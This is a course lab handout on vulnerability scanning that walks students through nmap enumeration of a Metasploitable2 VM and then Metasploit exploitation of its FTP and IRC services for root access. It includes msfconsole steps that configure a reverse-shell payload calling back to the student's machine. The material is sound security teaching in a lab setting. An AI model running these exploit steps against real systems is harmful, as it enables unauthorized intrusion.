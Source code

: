 # ACIT 4630 – Lab 2 – Vulnerability Scanning

## Instructions: 
We are going to use the Kali VM and the Metaploitable2 VM we created in the previous lab. 

An attacker or a pen tester goes through the reconnaissance phase first to look at the overall environment, identify specific targets, and focus on target enumeration. 

### Scanning Vulnerability using OpenVAS
to be editted!!!

### Host discovery and scanning using nmap 
- (Q1) What is the purpose of the -sn option in nmap? 
- (Q2) In the previous lab, you used nmap to find what services are running on what ports in the Metasploitable2 VM. Which nmap option gives you the version of those services? why is it important for vulnerability scanning? 
- (Q3) Try scanning Metasploitable2 VM from your Kali machine using -A option with nmap. What additional information about the open ports on Metasploitable2 VM can you get by using this option?

### Exploring Vulnerabilities 
After we complete enumerating (retrieving and collecting services, usernames, computers, ... on a network) Metasploitable 2, we need to look for known vulnerabilities for operating systems and services running on this machine. Do the following steps
for **ftp (on port 21)** and irc services running on Metasploitable 2: 
- From your previous nmap results (Services with their version), find the software and the version for the service and Google this info to see if this specific version of the software has any known vulnerabilities. 
-	Nmap has a comprehensive library of scripts that provide many advanced capabilities. Find and use nmap with a [script](https://nmap.org/nsedoc/scripts/) that scans a target for a vulnerable version of these softwares. 
    - Hint: use --script option 
    - Hint: You should provide the port the service is running on
- (Q4) What vulnerabilities did you find – both from Google and using the script? 

### Instructions for Exploiting FTP Port on Metasploitable2 Using Kali Linux
**Objective:** Gain root access to a shell on the target endpoint (Metasploitable2).
**Requirements:** Both Kali Linux and Metasploitable2 are on the same NAT Network.
#### Scan the Target with Nmap
1.	Open a terminal on your Kali Linux machine.
2.	Use Nmap to discover open ports, services, and their versions on Metasploitable2:
```sh
nmap -sV [TARGET_IP]
```
#### Open Metasploit Framework
1.	Launch Metasploit Framework by typing:
```sh
msfconsole
```
### Exploit the FTP Service
1.	Search for the FTP exploit module based on the service version found in the Nmap scan:
```sh
search ftp/[VERSION]
```
Replace [VERSION] with the version number identified by Nmap.

2.	Select the appropriate FTP module:
```sh
use [EXPLOIT_PATH]
```
Replace [EXPLOIT_PATH] with the path of the chosen exploit.
3.	Set the RHOSTS option to the target IP:
```sh
set RHOSTS [TARGET_IP]
```
4.	Run the exploit:
```sh
exploit
```
5.	If successful, you will gain access to the shell. To verify, run:
```sh
whoami
```
6. Check the shell type and IP:
```sh
echo $0
ifconfig
```

### Instructions for Exploiting IRC Port on Metasploitable2 Using Kali Linux

#### Exploit the IRC Service
1.	Search for the IRC exploit module based on the service version:
```sh
search irc [VERSION]
```
Replace [VERSION] with the version number identified by Nmap.
2.	Select the appropriate IRC module:
```sh
use [EXPLOIT_PATH]
```
3.	Set the necessary options:
```sh
set RHOSTS [TARGET_IP]
set RPORT [IRC_PORT]
set LHOST [YOUR_IP]
set LPORT 4444
```
Replace [IRC_PORT] with the port number of the IRC service, [YOUR_IP] with your Kali machine IP, and 4444 is recommended local port for this exploit.
4.	Set the payload: you can see all the payloads by show payloads command.
```sh
set PAYLOAD cmd/unix/reverse
```
Replace [PAYLOAD_NAME] with the appropriate payload for the exploit.
5.	Run the exploit:
```sh
exploit
```
6.	Verify access by running:
```sh
whoami
echo $0
ifconfig
```

(Q5) Explain 3 above commands and their results.
Ensure each step is completed accurately to gain root access. If any step fails, review configurations or try different modules/payloads suited to the service versions found.


### Submission For Lab 2: 
- Create a report answering the questions in the lab above. 
- Add screenshots of exploit command and result of commands to verify the access (3 above and last commands); for each exploit (FTP and IRC)
- Submit your report to the Learning Hub in PDF format. 
